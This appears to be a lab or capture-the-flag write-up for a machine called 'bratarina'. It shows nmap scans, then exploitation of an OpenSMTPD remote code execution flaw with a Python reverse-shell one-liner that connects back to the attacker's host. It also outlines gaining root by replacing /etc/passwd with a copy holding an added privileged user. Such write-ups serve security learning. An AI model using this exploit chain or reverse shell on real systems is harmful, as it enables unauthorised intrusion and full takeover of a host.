



Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.155.71
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 15:38 IST
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 60.32% done; ETC: 15:39 (0:00:11 remaining)
Nmap scan report for 192.168.155.71
Host is up (0.063s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.49 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,25,80,445 192.168.155.71
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 15:39 IST
Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 15:40 (0:00:00 remaining)
Nmap scan report for 192.168.155.71
Host is up (0.065s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.193], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-02-15T10:09:58
|_  start_date: N/A
|_clock-skew: mean: 1h40m01s, deviation: 2h53m15s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2026-02-15T05:09:59-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.80 seconds
```

Enumerating SMB.



Before jumping to SMTP. We looked for web sever on port 80 but we found nothing interesting.
That was everything I could get from SMB, I moved my attention to SMPT, the smpt version is OPENSMTP, i searched for a vulnerability and there was one RCE.


The exploit enabled use to run a command

We have to two methods 2 exploit this 
### Method 1
In this exploit, we used a Python-based exploit, and after that, we were able to run commands on the target server
```python
python3 47984.py 192.168.155.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.193\",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")"'
```

Before running above command we started nc on port 80. Just after hitting the above command we received shell on nc.


### Method 
If we are unable to make the porper payload and it didn't work. Then we can take advantage of `passwd.bak` file. As we are aware that we can use command with the exploit. We will do following:
I will edit the passwd.back, add new user, upload it back to the machine to replace /etc/passwd and then use the new user to have access.


This command generates a **hashed (encrypted) version** of the password `qwerty@123`.
Adding user to `passwd.bak`.
This command **adds a new user entry**(offsec) to the system’s `passwd.bak` file.

Then using ssh we will login and capture the root flag, as the user `offsec` we created has root privileges.